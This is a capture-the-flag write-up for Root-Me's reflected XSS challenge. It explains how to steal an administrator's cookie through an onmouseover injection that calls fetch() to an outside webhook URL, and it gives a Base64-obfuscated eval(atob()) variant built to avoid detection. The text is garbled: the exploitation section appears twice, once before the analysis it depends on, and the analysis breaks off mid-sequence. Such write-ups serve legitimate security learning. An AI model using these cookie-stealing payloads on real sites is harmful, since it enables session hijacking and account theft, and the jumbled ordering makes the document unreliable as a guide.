 ```yaml
---
layout: default
title: RootMe - XSS - Reflected
permalink: /web-client/xss-reflected
---
```


# XSS - Reflected

## Statement
Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.

## Analyze
We have this website (*http://challenge01.root-me.org/web-client/ch26*) about VALHALLA INC.

Quickly we found the page `/?p=about` in **About** section.
![About page, VALHALLA INC.](/assets/img/rootme/xss-reflected-1.png "About page, VALHALLA INC.")


Let's test with `/?p=test` to see the result.
![?p=test page, VALHALLA INC.](/assets/img/rootme/xss-reflected-2.png "?p=test page, VALHALLA INC.")

So, with `onmouseover` attributes, all we have left to do is to use `fetch()` on a webhook with `document.cookie` in URL query.

**Payload:**<br>
`?p=' onmouseover='fetch("https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie)`

This payload doesn't work when reporting to the administrator, this is because the statement says: "*Be careful, this administrator is aware of info security and <ins>he does not click on strange links that he could receive.</ins>*"

The `https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie` is too suspicious, we need to hide it to bypass filters.

To do that I use an `eval(atob())` with our `fetch(xxx)` encoded in Base64

**New payload:**<br>
`?p=' onmouseover='eval(atob("ZmV0Y2goImh0dHBzOi8vd2ViaG9vay5zaXRlLzZkNWVkZTgyLWNjNjQtNGE0Ny05MzVhLWMzNWRkOTRjMzY4Yj8iK2RvY3VtZW50LmNvb2tpZSk="))`

After waiting some minutes we obtain the flag:
`https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?flag=xxxxxxxxxxxxxxxxx`
`test` is displayed as hyperlink inside `<a>` tag, we can start testing XSS payloads.

- First attempt: `?p=<b>test</b>` : The payload is filetered with HTML Entity.
- Second attempt: `?p=' target='alert(1)` : We tinker with `<a>` but it gave nothing.
- Third attempt: `?p=' onmouseover='alert(1)` : After some research, the `onmouseover` attributes appear in global attributes (https://www.w3schools.com/tags/ref_eventattributes.asp), we test it and it work !

!["alert(1) with onmouseover in query"](/assets/img/rootme/xss-reflected-3.png "alert(1) with onmouseover in query")

## Exploitation
So, with `onmouseover` attributes, all we have left to do is to use `fetch()` on a webhook with `document.cookie` in URL query.

**Payload:**<br>
`?p=' onmouseover='fetch("https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie)`

This payload doesn't work when reporting to the administrator, this is because the statement says: "*Be careful, this administrator is aware of info security and <ins>he does not click on strange links that he could receive.</ins>*"

The `https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie` is too suspicious, we need to hide it to bypass filters.

To do that I use an `eval(atob())` with our `fetch(xxx)` encoded in Base64

**New payload:**<br>
`?p=' onmouseover='eval(atob("ZmV0Y2goImh0dHBzOi8vd2ViaG9vay5zaXRlLzZkNWVkZTgyLWNjNjQtNGE0Ny05MzVhLWMzNWRkOTRjMzY4Yj8iK2RvY3VtZW50LmNvb2tpZSk="))`

After waiting some minutes we obtain the flag:
`https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?flag=xxxxxxxxxxxxxxxxx`